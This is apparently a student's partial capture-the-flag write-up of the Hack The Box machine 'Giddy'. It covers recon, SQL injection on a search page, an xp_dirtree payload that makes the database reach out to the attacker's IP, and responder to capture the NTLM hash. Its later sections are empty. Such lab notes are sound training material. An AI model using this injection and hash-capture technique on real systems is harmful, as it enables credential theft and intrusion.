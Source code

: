 
Name: Giddy
Date:  
Difficulty:  Medium
Description:  
Better Description:  
Goals:  OSCP Prep - Ippsec handholding to 
Learnt:


First the video is three years old and more tools are avaliable to me than to him way back then

![faceofmadness](Screenshots/faceofmaddness.png)

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Added 
```bash
echo '10.129.96.140 giddy' | sudo tee -a /etc/hosts
```

![view-cert](Screenshots/view-cert.png)

Check the details!

Directory busting with feroxbuster:
![mvc](Screenshots/mvc-dir.png)

Went to the page /mvc/Search.aspx and insta-search for`'`:
![sqlerror](Screenshots/sql-error.png)

One thing not noticed in the video `C:\Users\jnogueira\Downloads\owasp10\1-owasp-top10-m1-injection-exercise-files\before\1-Injection\Product.aspx.`
Ippsec demonstrated a more through methodology of testing for `--` aswell to see if it causes an error. Not using `sqlmap` till I finish OSCP.. so I tried it as this box is not on OSCP pwnlist got with id-sqli.req: 

![sqlimap](id-sqli.png)


Arbituary File Reading with xp_dirtree
```sql
declare @q varchar(200); set @q ='\$ip\IppsecIsAwesome\test';exec master.dbo.xp_dirtree @q;--+
```

![catching](ncat.png)

```bash
responder -I tun0
```

![stacy](hashcapture.png)

Paused video to see if I could try pass the hash. I could not.


## Exploit

## Foothold

## PrivEsc

      
